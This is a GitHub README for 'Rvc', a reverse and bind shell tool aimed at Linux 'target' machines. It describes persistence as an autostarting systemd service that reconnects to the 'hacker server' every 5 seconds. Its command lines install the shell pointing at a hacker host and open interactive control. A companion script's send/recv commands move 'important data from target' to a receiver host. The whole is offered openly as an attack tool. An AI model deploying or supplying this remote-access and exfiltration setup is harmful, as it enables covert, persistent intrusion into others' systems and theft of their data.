




# Rvc Reverse and Bind shell

A script for creating a reverse and bind shell tunnel for linux servers 
Not actual rsh that uses RCE for injecting the vulnerability.

Reverse Shell:


Bind Shell:


## Features

1) Complete control of remote shell including ctrl+.. signals.
2) Supports interaction with text editors like nano, vim, emacs on remote shell as well !!
3) Auto tab completion supported.
4) Ansi color output and characters supported.
5) Dynamic communiation with the launched command.
6) Install and uninstall as a systemd service on target with autostart on boot.
7) Target RSH client always tries every 5 seconds to reconnect to the hacker server.
8) Less bandwidth consumption and never hangs up.

## Getting Started

These instructions will get you a copy of the project up and running on your local machine for development and testing purposes. See deployment for notes on how to deploy the project on a live system.

### Prerequisites

This script was tested on Ubuntu 18.04 LTS and Kali Linux 2019.3
However this script needs some basic bash primitives in a normal linux distribution.

Server side:: Target side
1) bash
2) python3
3) stty (for setting terminal window)
4) systemctl service support (for installation and autostart)

Client side:: Hacker side 
1) bash
2) python3
3) stty (for getting hacker terminal sizes)
4) awk interpreter and hostname utility

## Deployment

The following steps will guide you setting up a Reverse Shell between two pcs in same network

to set the reverse shell to connect to the hacker ip address.

1) Copy this file on Target pc and either install (run as root) or expose its terminal to hacker pc. Run
```
./rvc-rsh install (hacker hostname) (port no)
or
./rvc-rsh expose  (hacker hostname) (port no)

for bsh

./rvc-bsh install (target hostname) (port no)
or
./rvc-bsh expose  (target hostname) (port no)


uninstall on target:
./rvc-rsh uninstall
or 
./rvc-bsh uninstall
```
Give the hostname and port no. to open a connection.
Just remember for now the script supports only one rsh client install per target pc if you want to.

2) on hacker terminal to open a client bearing (hacker hostname) and (port no) run
```
./rvc-rsh open (hacker hostname) (port no)
for bsh
./rvc-bsh open (target hostname) (port no)
```
This will establish a TCP connection between the hacker and the target shells
And MAGIC !! you will entirely get the remote console with all above mentioned features !!

### Complimentary File transfer utility

File transfer script (rvc-ft) however is not the actual part of this repo but 
after some experiments using rsh and bsh we urgently felt a need for an anonymous file transfer
to get important data from target. For that we wrote our own naive FTP over TCP in python
to enable raw file transfer. We have written this FTP in both reverse and bind methodologies.
This script is to be copied with the other scripts on target pc to enable its features obviously.

A) Reverse transfer



1) first start rvc-rft in reciever mode 
```
./rvc-rft recv (reciever hostname) (port no.) (path/to/save/file/as)
```
2) then transmit the remote file
```
./rvc-rft send (reciever hostname) (port no.) (path/to/get/file)
```
3) have patience and DONE!! because no progress bars, etc.


B) Bind transfer



1) first start rvc-bft in sender mode 
```
./rvc-bft send (sender hostname) (port no.) (path/to/get/file)
```
2) then transmit the remote file
```
./rvc-bft recv (sender hostname) (port no.) (path/to/save/file/as)
```
3) have patience and DONE!! because no progress bars, etc.

## Author

* **Rajas Chavadekar** 

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details

